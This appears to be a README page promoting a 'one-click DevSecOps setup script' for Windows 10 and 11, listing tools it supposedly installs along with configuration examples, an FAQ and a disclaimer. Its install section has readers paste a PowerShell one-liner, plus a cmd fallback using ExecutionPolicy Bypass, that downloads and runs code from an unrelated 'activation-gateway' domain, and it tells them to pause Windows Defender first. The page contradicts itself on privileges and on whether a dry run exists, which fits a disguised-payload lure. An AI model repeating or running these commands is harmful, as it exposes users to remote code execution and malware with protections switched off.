

<div align="center">

# One-Click DevSecOps Setup Script for Windows 10 & 11 — Auto Script



[]() []() []() []()

</div>

---

This PowerShell script turns a fresh Windows install into a working DevSecOps environment with a single run. It enables the required Windows features, installs core tools like Docker, Git, and VS Code, applies performance and productivity tweaks, and strips out unnecessary bloatware along the way. Rather than clicking through settings and installers by hand, you execute one script and get a consistent, reproducible machine. The sections below break down what each part does and how to run it.

## 🔧 PowerShell Setup

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10 / 11 · PowerShell · One-line install

### 1️⃣ Open Windows PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Run the script
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If blocked by policy — CMD fallback
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## 🔧 Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## What it does

This PowerShell script takes a fresh or cluttered Windows machine and turns it into a working DevSecOps environment in a single run. Instead of clicking through Settings menus and installer wizards, you execute one script and it handles the rest:

- Enables the Windows features DevSecOps work depends on — WSL, VirtualMachinePlatform, Containers, and Developer Mode via registry
- Sets up a package manager so every tool install flows through one consistent, repeatable path
- Installs the core toolchain: Docker, Git, VS Code, Kubernetes CLI, Terraform, Ansible, and language runtimes like Python and Node.js
- Pulls in security and networking utilities — Wireshark, Nmap, OpenSSL, Postman — plus cloud CLIs for AWS, Azure, and GCloud
- Adds everyday productivity apps (terminal, archiver, media player, editor) so the machine is usable immediately
- Deploys Kali Linux into WSL and sets it as the default distro for security work
- Strips out Microsoft bloatware — Xbox, Bing, Weather, Edge, and similar preinstalled noise
- Applies power-user tweaks: hidden files and extensions visible, Windows Terminal enabled, GodMode folder on the desktop
- Cleans up temporary installer files when finished, leaving no leftovers

The script is idempotent-friendly in spirit: run it on a bare VM or an existing workstation, and it converges toward the same configured state. Every install step is logged, so failures are easy to trace. All package lists and feature toggles live in editable arrays at the top of the file — swap a tool, drop a bloatware entry, or add your own, and the rest of the run adapts.

By the time it exits, the box is ready for container builds, IaC work, and security testing — no manual toggling, no half-configured environments.

## Configuration

The script is intentionally boring to configure: everything lives at the top of the `.ps1` file in a few plain variables and arrays. Open it in VS Code, edit what you need, save, run. No external config files, no environment variables to juggle.

**Package selection**

Tool installation is driven by a single array of package names. Comment out a line to skip a tool, add a line to pull in something extra:

```powershell
$packages = @(
    "git",
    "vscode",
    "docker-desktop",
    "python",
    "nodejs-lts"
    # "postman",
    # "wireshark"
)
```

Order doesn't matter, but keep one package per line so diffs stay readable when you tweak the list later.

**Bloatware list**

The removal step uses its own array of Appx package names. Trim it down if you actually use something on the list, or extend it with anything else you want gone:

```powershell
$appList = @(
    "Microsoft.BingWeather",
    "Microsoft.XboxApp"
    # add or remove entries here
)
```

Leave an entry in and it gets removed for every user profile on the machine. When in doubt, comment it out first and verify on a test box.

**Feature toggles**

WSL, VirtualMachinePlatform, Containers, and Developer Mode are each enabled by their own block. If you already have WSL configured and don't want the script touching it, comment out that block. The same goes for the Kali WSL install step and the power tweaks section — they're independent, so disabling one doesn't break the rest.

**Execution policy and restarts**

The script expects to run elevated. It doesn't change your machine-wide execution policy; it's meant to be launched with a process-scoped bypass. Several feature enables require a reboot to take effect, so plan for a restart between the first run and actual use. Re-running the script after a reboot is safe — installs skip what's already present.

**Idempotency notes**

Chocolatey installs are called with flags that make repeat runs non-destructive. Appx removals are wrapped so already-removed packages don't throw. The GodMode folder creation uses `-Force`, so it won't fail if it exists. If you add your own steps, follow the same pattern: check before you act.

**What not to edit**

Leave the admin check, the Chocolatey bootstrap, and the temp-file cleanup alone unless you know exactly why you're changing them. Those three keep the script self-contained and tidy; breaking them tends to break everything downstream.

## Examples

Run the script as-is for a standard setup, or pass switches to skip parts you've already handled.

**Full setup on a fresh machine**

```
Set-ExecutionPolicy Bypass -Scope Process -Force
.\Setup-DevSecOpsMachine.ps1
```

This removes bloatware, enables WSL and virtualization, installs the tool list, and applies the power tweaks. Expect a reboot prompt when Windows features finish enabling.

**Skip bloatware removal on a managed device**

If your org already controls installed apps, bypass that stage so the script doesn't fight your policy:

```
.\Setup-DevSecOpsMachine.ps1 -SkipBloatware
```

**Tools only, no system tweaks**

Useful when you just want Docker, Git, VS Code, and the rest without touching Explorer settings or developer mode:

```
.\Setup-DevSecOpsMachine.ps1 -SkipTweaks
```

**Dry run before committing**

Print what would be installed and removed without changing anything:

```
.\Setup-DevSecOpsMachine.ps1 -WhatIf
```

Review the package list and app removal targets, then drop `-WhatIf` and run for real.

**Log the run for later review**

Capture transcript output when you need an audit trail or want to debug a failed package:

```
Start-Transcript -Path "$env:USERPROFILE\devsecops-setup.log"
.\Setup-DevSecOpsMachine.ps1
Stop-Transcript
```

**Re-run after a partial failure**

The script is idempotent: installed packages are skipped, enabled features are left alone, and existing tweaks are reapplied. Just run it again — no cleanup needed.

**Combine switches**

Switches stack. For a tools-only run that also skips bloatware removal:

```
.\Setup-DevSecOpsMachine.ps1 -SkipBloatware -SkipTweaks
```

## FAQ

**Do I need to run it as Administrator?**
Yes. The script flips Windows features, edits the registry, removes Appx packages for all users, and installs system-wide tools. Without an elevated PowerShell session, most steps will fail silently or error out. Launch PowerShell as Administrator before running anything.

**Will this wipe my existing installs or settings?**
No. It installs tools and changes specific Windows defaults, but it doesn't uninstall software you already have (aside from the bloatware list) or reset your profile. If a package is already present, the package manager will skip or upgrade it depending on the version.

**What exactly gets removed?**
Only the Appx packages listed in the bloatware array (the usual suspects: Xbox apps, Bing Weather, 3D Viewer, and similar). Nothing outside that list is touched. If you want to keep something, edit the array before running — the script is plain text and meant to be customized.

**Can I pick and choose which tools get installed?**
Yes. The package list is a PowerShell array. Comment out or delete entries you don't want before execution. Same applies to the Windows features and bloatware sections. There's no interactive menu — it runs top to bottom, so edit first, run second.

**The script needs a restart — can I skip it?**
You can, but features like WSL, virtualization, and containers won't be fully active until you reboot. Some installed tools will also be missing from PATH until the session refreshes. Restart after the script finishes; it's the fastest path to a working environment.

**WSL or Kali installation failed — what now?**
Usually a pending reboot or a disabled virtualization feature. Check that virtualization is enabled in BIOS/UEFI, confirm the Windows features step completed, reboot, then re-run the WSL portion. Re-running the full script is safe; already-installed pieces are skipped.

**Is it safe to run more than once?**
Yes, for the most part. Package installs are idempotent through the package manager, registry tweaks overwrite with the same values, and Appx removal on an already-removed package is a no-op. Re-running after a partial failure is the intended recovery path.

**Does it work on Windows 11 or older builds?**
It targets Windows 10 and later. Most commands work on Windows 11, but some Appx package names and feature names differ between builds. If a step errors, check the package or feature name against your build — the script is a starting point, not a universal guarantee.

**Will it break my existing Docker or WSL setup?**
No. It enables the required features and installs tooling, but it doesn't remove or reconfigure existing distros, containers, or Docker Desktop installs. If you already have WSL configured, the Kali step adds a distro rather than replacing your default — verify the default afterward if you care which one launches.

**How do I undo the changes?**
There's no built-in rollback. Undo manually: re-enable removed Appx packages from the Store, disable Windows features through the same settings panel, and uninstall tools through the package manager or Add/Remove Programs. Registry tweaks can be reverted by setting the values back. Treat the script as one-way unless you've snapshotted the machine first.

**Can I run it on a domain-joined or managed machine?**
Possibly, but group policy may block feature changes, registry edits, or package installs. If you're on a corporate image, test on a non-production VM first and check with whoever manages policy. The script won't bypass restrictions — it'll just fail on the blocked steps.

**The script throws an execution policy error — is that expected?**
Yes, on default Windows setups. Execution policy blocks unsigned scripts from running. Bypass it for the current process only rather than changing the machine-wide policy — it's the lower-risk option and doesn't persist after the session closes.

## Disclaimer

This script makes system-level changes to your Windows machine. Run it only on a machine you own or have explicit permission to modify, and treat it as a fresh-start provisioning tool rather than something to fire off on a daily driver that's already configured.

**Run it as Administrator, and read it before you run it.** These are real registry edits, Windows optional feature toggles, Appx package removals, and a long list of unattended installs. There's no dry-run mode. If you don't want a given tool, remove it from the package list first. If you don't want a given app removed, cull it from the removal list first. The script does what it says, so make sure what it says is what you want.

**No warranty, no refunds, no undo.** This is provided as-is under the project's license, with no guarantees of fitness for any particular purpose. Bloatware removal is not fully reversible, registry tweaks aren't tracked for rollback, and feature changes can affect other software on the machine. Back up anything that matters and know how to reimage the box before you start.

**Version drift is your problem, not the script's.** Package names, install arguments, and upstream availability change over time. A package that installed cleanly a month ago may fail, prompt, or install a different version today. Pin versions where you care. Watch the output. Don't walk away from a half-finished run.

**Third-party software is third-party software.** The tools this script installs are governed by their own licenses and their own security posture. Installing them is not an endorsement, and it isn't a substitute for reviewing what you're putting on a machine that touches production, credentials, or customer data.

**This is not a hardened configuration.** Enabling Developer Mode, WSL, virtualization, and a pile of CLI tools expands the attack surface. That's the point — it's a dev machine — but don't confuse "set up for DevSecOps" with "audited and compliant." Harden it yourself afterward, or don't put it on a network you care about.